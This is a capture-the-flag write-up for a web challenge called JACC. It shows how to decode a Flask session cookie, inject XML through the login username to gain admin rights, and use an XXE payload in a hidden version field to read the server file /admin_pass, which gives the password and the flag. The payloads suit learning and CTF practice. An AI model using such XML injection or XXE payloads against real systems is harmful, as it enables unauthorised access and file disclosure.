

# JACC - Solution

Created by Yarin ([GitHub](https://github.com/CmdEngineer) / [Twitter](https://twitter.com/CmdEngineer_))

## Description

Say hello to JACC - Just Another Cookie Clicker 🍪

http://challenges2.hexionteam.com:2002

## Solution

### Login Page



You start with a login form, viewing the form you can see an hidden `version` value.

### Game Page


Using [flask-unsign](https://pypi.org/project/flask-unsign/) to decode the session cookie **after logining in as User** we get:

```js
{'cookies': 0, 'lxml': b'PCEtLSBBUEkgVmVyc2lvbjogMS4wLjAgLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPlVzZXI8L3VzZXJuYW1lPgogICAgICAgIDxpc19hZG1pbj4wPC9pc19hZG1pbj4KICAgIDwvZGF0YT4KPC9yb290Pgo='}
```

Decoding the base64 we get:

```xml
<!-- API Version: 1.0.0 -->
<root>
    <data>
        <username>User</username>
        <is_admin>0</is_admin>
   </data>
</root>
```

This is interesting cause both `User` and `1.0.0` are user input. Let's try to inject some XML, first let's get is_admin to be 1.

By logging in with `username` as:

`User</username><is_admin>1</is_admin><username>`

We'll see the xml has changed to:

```xml
<!-- API Version: 1.0.0 -->
<root>
    <data>
        <username>Yarin<username>
        <is_admin>1<is_admin>
        <username></username>
        <is_admin>0</is_admin>
    </data>
</root>
```

When the server searches for is_admin it will find our first one and this will allows us to get to the admin panel.

### Admin Login Page


In the source code of the page we can see this comment:

```html
<!-- If you are an admin and you forgot the password it's located on the server at /admin_pass-->
```

Alright we need to get the file located at /admin_pass from the server. Now we can use the version from before to add a DOCTYPE and XXE or way to local file inclusion. \
The username is printed in the game as `Good Luck {username}!` we can use this to read our XXE entity.

We'll set `username` to:

`&xxe;</username><username>Hey`

And `version` to:

```xml
--><!DOCTYPE d [<!ENTITY xxe SYSTEM \"file:///admin_pass\">]><!--
```

First we close the comment from the version with `-->` we insert our DOCTYPE with the entity and then resume the comment that will be closed by the server with `<!--` \
This will give us `admin_pass` in the username location:


Admin Password is `gLTAqe12Z3OufWG7`
Putting the password in the admin panel will send us this png:


Flag: `hexCTF{th3_c00ki3_m0nst3r_at3_my_c00ki3s}`
